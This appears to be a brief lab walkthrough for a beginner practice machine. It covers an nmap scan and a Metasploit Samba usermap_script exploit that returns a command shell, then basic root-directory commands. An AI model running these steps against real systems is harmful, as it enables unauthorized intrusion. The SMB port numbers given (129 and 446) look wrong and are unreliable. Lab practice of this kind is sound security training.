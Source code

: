 # First Box

## Terminal setup

Either be in root or use sudo. 
Create three tabs (VPN, NMAP, HACK).

## Enumeration

First scans
```
# nmap -sV -sC -A -oN <ip address.txt>  <ip address>
```

Note the smb on ports 129 and 446.  Start metasploit console and search for samba
```
# msfconsole

msf5> search samba
```

Review the excellent ranked modules
```
msf5> info /exploit/linux/samba
msf5> info /exploit/multi/samba/usermap_script
```

Note: can use searchsploit to avoid the startup

```
# searchsploit <service> <version>
```


## Attack

To execute
```
msf5> use /exploit/multi/samba/usermap_script
msf5 exploit(multi/samba/usermap_script) >  show options
msf5 exploit(multi/samba/usermap_script) >  set RHOST <ip address>
msf5 exploit(multi/samba/usermap_script) >  exploit
```

This will create a command shell back in the terminal

## Endgame

summary
```
id
pwd
cd /home/<user>
cd /root
```
